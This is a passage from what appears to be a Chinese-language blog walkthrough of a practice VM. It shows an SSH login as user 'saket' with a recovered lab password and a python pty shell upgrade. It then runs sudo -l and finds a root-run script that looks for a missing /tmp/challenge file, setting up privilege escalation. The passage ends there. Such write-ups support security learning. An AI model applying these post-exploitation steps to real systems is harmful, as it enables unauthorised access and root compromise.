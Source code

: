 可能看到这已经忘记之前etc/passwd里有一个1001用户saket，我们拿到了他的凭据，用它去ssh登陆吧


![](https://img2024.cnblogs.com/blog/3409507/202412/3409507-20241209174406311-1716571134.png)


## ssh连接saket用户



```
sudo ssh saket@靶机ip

```

输入yes，输入密码tribute\_to\_ippsec


成功拿到saket用户的权限，用python提升一下shell交互性，这里前面打sickos解法二时介绍过，不再赘述



```
python -c 'import pty;pty.spawn("/bin/bash")'

```

sudo \-l看一下权限，权限还是不高，但是有新的发现，可以root权限执行/home/victor/undefeated\_victor



```
saket@ubuntu:~$ sudo -l
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (root) NOPASSWD: /home/victor/undefeated_victor

```

没有权限查看，应该是只有运行权限



```
saket@ubuntu:~$ cd /home/victor
saket@ubuntu:/home/victor$ ls -liah
ls: cannot open directory '.': Permission denied

```

给了一段文字 如果你可以打败我那就在你面前挑战我 然后报错提示/tmp/challenge: not found



```
saket@ubuntu:/home/victor$ sudo ./undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found

```
